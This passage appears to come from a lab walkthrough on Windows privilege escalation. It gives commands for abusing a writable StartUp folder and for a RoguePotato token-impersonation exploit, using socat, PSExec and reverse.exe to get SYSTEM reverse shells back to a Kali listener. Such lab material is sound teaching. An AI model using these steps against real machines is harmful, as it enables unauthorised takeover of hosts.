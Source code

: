 4. Press Enter to spawn a command prompt running with admin privileges.

## Startup Apps 

1. Using accesschk.exe, note that the BUILTIN\Users group can write files to the StartUp directory:

```
C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

2. Using cscript, run the C:\PrivEsc\CreateShortcut.vbs script which should create a new shortcut to your reverse.exe executable in the StartUp directory:

```
cscript C:\PrivEsc\CreateShortcut.vbs
```

3. Start a listener on Kali, and then simulate an admin logon using RDP and the credentials you previously extracted:

```
rdesktop -u admin 10.10.159.78
```

4. A shell running as admin should connect back to your listener.

## Token Impersonation - Rogue Potato 

**NOTE: To make this work, the tokens should be:**

```
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
```

1. Set up a socat redirector on Kali, forwarding Kali port 135 to port 9999 on Windows:

```
sudo socat tcp-listen:135,reuseaddr,fork tcp:10.10.159.78:9999
```

2. Start a listener on Kali. Simulate getting a service account shell by logging into RDP as the admin user, starting an elevated command prompt (right-click -> run as administrator) and using PSExec64.exe to trigger the reverse.exe executable you created with the permissions of the "local service" account:

```
C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```

3. Start another listener on Kali.

4. Now, in the "local service" reverse shell you triggered, run the RoguePotato exploit to trigger a second reverse shell running with SYSTEM privileges (update the IP address with your Kali IP accordingly):

```
C:\PrivEsc\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999
```
